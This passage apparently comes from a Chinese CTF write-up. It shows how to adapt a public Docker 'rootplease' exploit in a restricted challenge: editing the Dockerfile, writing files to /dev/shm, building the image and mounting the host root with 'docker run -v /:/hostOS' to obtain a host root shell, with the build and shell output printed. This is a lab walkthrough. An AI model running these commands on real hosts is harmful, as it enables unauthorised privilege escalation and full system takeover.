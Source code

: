 首先，容器基于 `ubuntu:20.04`，题目环境没有网络，是无法获取的。但是，题目提供了已经部署好的 `alpine:latest` 环境。因此将第一行改成：

```docker
FROM alpine:latest
```

其次，题目提供的 `alpine:latest` 中没有 `/bin/bash`，只有 `/bin/sh`。因此将第三行改成：

```docker
CMD ["/bin/sh", "exploit.sh"]
```

#### 起爆容器

题目环境的 `~` 下是只读的，无法创建我们容器所需的文件。但是，有一个地方几乎总是可以的——虚拟内存盘 `/dev/shm`。

题目环境没有 `vim`，没有 `nano`。但是，执行命令 `cp /dev/tty <filename>`，然后将文本内容粘贴进去，按 Ctrl + D（表示 EOF），就可以创建文本文件。

```plain
alpine:~$ cd /dev/shm
alpine:/dev/shm$ mkdir exploit
alpine:/dev/shm$ cd exploit
alpine:/dev/shm/exploit$ cp /dev/tty Dockerfile
FROM alpine:latest
COPY exploit.sh /exploit.sh
CMD ["/bin/sh", "exploit.sh"]
alpine:/dev/shm/exploit$ cp /dev/tty exploit.sh
if [ ! -d "/hostOS" ]; then
--- snip ---
chroot /hostOS /bin/sh
alpine:/dev/shm/exploit$ 
```

然后按照 GitHub 仓库中的提示运行，

```
alpine:/dev/shm/exploit$ docker build -t rootplease .
DEPRECATED: The legacy builder is deprecated and will be removed in a future release.
            Install the buildx component to build images with BuildKit:
            https://docs.docker.com/go/buildx/

Sending build context to Docker daemon  3.584kB
Step 1/3 : FROM alpine:latest
 ---> 187eae39ad94
Step 2/3 : COPY exploit.sh /exploit.sh
 ---> 4e090535ee31
Step 3/3 : CMD ["/bin/sh", "exploit.sh"]
 ---> Running in 4bca2f8ee2ce
Removing intermediate container 4bca2f8ee2ce
 ---> abde7172dff2
Successfully built abde7172dff2
Successfully tagged rootplease:latest
alpine:/dev/shm/exploit$ docker run -v /:/hostOS -it --rm rootplease

You should now have a root shell on the host OS
Press Ctrl-D to exit the docker instance / shell
/ # 
```
